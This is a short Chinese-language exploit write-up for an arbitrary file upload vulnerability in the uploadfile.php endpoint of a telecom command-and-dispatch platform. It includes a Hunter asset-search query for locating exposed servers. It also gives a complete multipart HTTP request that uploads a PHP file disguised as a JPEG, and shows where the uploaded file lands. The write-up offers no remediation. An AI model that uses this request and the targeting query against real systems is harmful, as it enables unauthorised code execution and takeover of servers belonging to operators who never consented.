 # 指挥调度平台event_uploadfile存在任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">指挥调度管理平台是一个专业针对通信行业的管理平台。该产品旨在提供高效的指挥调度喝管理解决方案，以帮助通信运营商或相关机构实现更好的运营效率和服务质量。该平台提供强大的指挥调度功能，可以实时监控和管理通信网络设备、维护人员和工作任务等。用户可以通过该平台发送指令、调度人员、分配任务。</font>指挥调度平台event_uploadfile存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 指挥调度平台

# 三、资产测绘
+ hunter`web.body="app/structure/departments.php"`
+ 特征

![1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74.png](./img/ojv9dkJApB3BJyaT/1701096622884-9c34ec74-7f59-464c-b435-5a6ccd465c74-308583.png)

# 四、漏洞复现
```plain
POST /api/client/event/uploadfile.php HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686 on x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2820.59 Safari/537.36
Connection: close
Content-Length: 179
Content-Type: multipart/form-data; boundary=htu3qcyui73l2jtyqwnk
Accept-Encoding: gzip, deflate

--htu3qcyui73l2jtyqwnk
Content-Disposition: form-data; name="uploadfile"; filename="stc.php"
Content-Type: image/jpeg

<?php echo 111*111;?>
--htu3qcyui73l2jtyqwnk--

```

![1701096805339-6c486035-e40d-4fa4-a928-29e83b27b7b7.png](./img/ojv9dkJApB3BJyaT/1701096805339-6c486035-e40d-4fa4-a928-29e83b27b7b7-231504.png)

上传文件位置

```plain
/upload/event/ccc78e2b-5e61-49c0-9050-3a29687b2e81.php
```

![1701096849479-93ad2b75-2bba-47cd-a3eb-30b49de88bb3.png](./img/ojv9dkJApB3BJyaT/1701096849479-93ad2b75-2bba-47cd-a3eb-30b49de88bb3-235066.png)



> 更新: 2024-02-29 23:55:44  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/llu0mvvzuhvpu9ag>